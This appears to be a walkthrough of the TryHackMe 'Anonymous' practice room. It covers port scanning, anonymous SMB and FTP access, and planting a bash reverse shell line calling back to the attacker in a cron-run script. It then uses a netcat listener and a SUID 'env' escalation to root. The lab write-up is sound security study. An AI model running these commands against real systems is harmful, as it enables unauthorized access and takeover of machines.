


# **Anonymous**
This is a writeup for the TryHackMe room [anonymous](https://tryhackme.com/room/anonymous).

The questions ask about ports, so let's start with an nmap scan.

```bash
nmap -sV $ip
```


This nmap scan shows us that ports 21, 22, 139 and 445 are open. Port 21 is used for FTP, port 22 is used for ssh and ports 139 and 445 are use for SMB.

Let's check for SMB shares.

```bash
smbmap -H $ip -R
```


This shows us two files that we can download, corgo2.jpg and puppos.jpeg.

```bash
smbget -R smb://$ip/pics
```

When prompted for a password, just press **ENTER**.




These look like they're just pictures of dogs but let's exiftool them just in case.


Nothing interesting there. SMB seems to be a dead end for now, let's check FTP.

```bash
ftp $ip
```

When prompted for a username input **anonymous**, and when prompted for a password press **ENTER**.


The scripts folder has some interesting sounding files in it, so let's get those. The command `get` can be used to download files from FTP.


Let's see what those files are, **clean.sh** seems the most interesting so we'll check that first.


It seems to delete temporary files, so maybe it's a cronjob? We'll look in to that in a minute, first lets see what those other files are.


Nothing useful there. Let's check **to_do.txt**, it's nothing interesting either.

Back to that **clean.sh** file, maybe we can add to that file and see if anything happens. We can use `curlftpfs` to mount and change the file.

First we need to create a folder for the files to mount to.

```bash
mkdir ftp
```

Then we run `curlftpfs`.

```bash 
sudo curlftpfs anonymous@$ip ftp/
```


Now we need to edit the **clean.sh** file, we can do that with any text editor but for now we'll just use `nano`.

```sh
sudo nano ftp/scripts/clean.sh
```


We're going to add a line to give us a reverse shell. Credit goes to the [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp) github repo for the reverse shell.

```bash
bash -i >& /dev/tcp/$yourip/4242 0>&1
```


Now we need to set up a netcat listener, we can use the following command for this.

```sh
nc -lnvp 4242
```

And now we wait...


Once we have a reverse shell we can print out the user flag. We should probably stabilise our shell, we can do that with python.

```sh
python -c 'import pty; pty.spawn("/bin/sh")'
```

Now that that's done let's move on to priv-esc. First we'll check for **SUID** binaries.

```sh
find / -user root -perm -4000 -print 2>/dev/null
```



The only thing out of the ordinary there is `env`, so let's check [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid) to see if they have any suggestions.

```sh
env /bin/sh -p
```

This will give us root and allow us to get the flag.


